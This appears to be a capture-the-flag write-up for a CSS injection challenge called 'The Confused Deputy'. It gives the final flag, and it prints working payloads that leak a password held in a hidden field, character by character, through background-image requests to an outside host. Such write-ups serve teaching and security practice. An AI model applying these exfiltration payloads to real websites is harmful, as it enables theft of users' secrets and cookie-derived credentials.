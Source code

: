 # The Confused Deputy

Author: [roerohan](https://github.com/roerohan)

## Description

This website can be exploited with the help of CSS Injection.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Node.js

## Sources

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.
```

## Exploit

This is a CSS injection challenge. In the page you open, you can see that there is an input box where you can enter a color, which gets applied as you click on submit. There's also a hidden field `password`, the value of which is taken from the cookie. Since the string is interpolated, you can do something like `blue}; input[type="password"][value^="c"] {background-image: url('https://example.com?c');`, which will send a request to `example.com?c`, if the first character of the password is `c`.
<br />

You may pass a long list of such CSS selectors, for all letters, for example. For example:

```css
input[type="password"][value^="a"] {background-image: url('https://example.com?a');}
input[type="password"][value^="b"] {background-image: url('https://example.com?b');}
input[type="password"][value^="c"] {background-image: url('https://example.com?c');}
...
```

This will therefore tell you which character matched, which you can see on your own server (here example.com). Once the first character is leaked, you can go ahead and try to leak the next character.

```css
input[type="password"][value^="ca"] {background-image: url('https://example.com?ca');}
input[type="password"][value^="cb"] {background-image: url('https://example.com?cb');}
input[type="password"][value^="cc"] {background-image: url('https://example.com?cc');}
...
```

An so on, until you find the entire password. The final payload with the help of which you can find the entire flag is:

```css
blue;} input[type="password"][value^="csictf{cssxss}"] {background-image: url('http://localhost:8000?csictf{cssxss}');
```

<br />

The flag is:

```
csictf{cssxss}
```